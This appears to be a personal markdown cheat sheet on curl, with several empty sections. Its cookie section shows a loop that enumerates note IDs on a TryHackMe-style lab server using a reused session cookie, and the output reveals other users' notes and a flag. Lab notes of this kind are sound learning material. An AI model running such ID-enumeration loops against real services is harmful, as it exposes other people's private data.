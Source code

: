 # curl

- [Basic](#basic)
- [Check files without downloading it](#check-the-availability-of-files-without-downloading-it)
- [Cookie](#cookie)
- [HTML Form](#html-form)

# Basic

### 
```sh

```

### 
```sh

```

## Check the availability of files without downloading it
```bash
#!/bin/bash

ip="http://example.com"  # Replace with the actual URL of the files

for i in {1..9}; do
    url="$ip/images/slide_$i.jpg"
    response=$(curl -s -I "$url" | grep "HTTP/1.1")

    if [[ "$response" =~ 200 ]]; then
        echo "Image $i is available"
        curl -so "slide_$i.jpg" "$url"   # download the file only if it's available
    else
        echo "Image $i is not available"
    fi
done
```

E.g.
```bash
$ ./script.sh   
Image 4 is available
Image 5 is available
Image 6 is not available
Image 7 is not available
```

# [Cookie](#cookie-1)
## 
```sh
$ curl --help all | g cookie 
 -b, --cookie <data|filename> Send cookies from string/file
 -c, --cookie-jar <filename> Write cookies to <filename> after operation
 -j, --junk-session-cookies Ignore session cookies read from file
```

## 
```sh
$ curl http://$t/note.php?note_id=1 -sb 'PHPSESSID=moi8d3p38cuf81n98nicsibd8u' | html2text          

[Avatar]
***** THM Note Server *****
Things to buy from the store:
2x carrots
1x potato
1x cheese
lots of chocolate!
```

## 
```sh
for i in {0..9}; do
url="http://$t/note.php?note_id=$i"
echo "\n>>> $url"; curl $url -sb 'PHPSESSID=moi8d3p38cuf81n98nicsibd8u' | html2text;
done
```

## 
```sh
$ for i in {0..9}; do
url="http://$t/note.php?note_id=$i"
echo "\n>>> $url"; curl $url -sb 'PHPSESSID=moi8d3p38cuf81n98nicsibd8u' | html2text;
done

>>> http://10.10.19.222/note.php?note_id=0

[Avatar]
***** THM Note Server *****
flag{fivefourthree}

>>> http://10.10.19.222/note.php?note_id=1

[Avatar]
***** THM Note Server *****
Things to buy from the store:
2x carrots
1x potato
1x cheese
lots of chocolate!

>>> http://10.10.19.222/note.php?note_id=2

[Avatar]
***** THM Note Server *****
2022-09-10: Meeting with Sophie S.
2022-09-12: Lunch at Manny's
2022-09-27: Stu's birthday

>>> http://10.10.19.222/note.php?note_id=3

[Avatar]
***** THM Note Server *****
You are not supposed to see this note... Which means you are on the right
track!

>>> http://10.10.19.222/note.php?note_id=4

[Avatar]
***** THM Note Server *****
Mark's new year resolutions 2022:
 - Write actual resolutions for next year
 - Go to the gym (for real)

>>> http://10.10.19.222/note.php?note_id=5

[Avatar]
***** THM Note Server *****
Hint: Do note_ids start from 1? Maybe go lower ;)

>>> http://10.10.19.222/note.php?note_id=6

[Avatar]
***** THM Note Server *****
Error: Note not found!

>>> http://10.10.19.222/note.php?note_id=7

[Avatar]
***** THM Note Server *****
Error: Note not found!

>>> http://10.10.19.222/note.php?note_id=8

[Avatar]
***** THM Note Server *****
Error: Note not found!

>>> http://10.10.19.222/note.php?note_id=9

[Avatar]
***** THM Note Server *****
Error: Note not found!

$ 
```

# [HTML Form](#html-form-1)
## 
```sh
curl -s $t:85 | grep -Pzo '<form[\s\S]*?</form>'
```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

# References


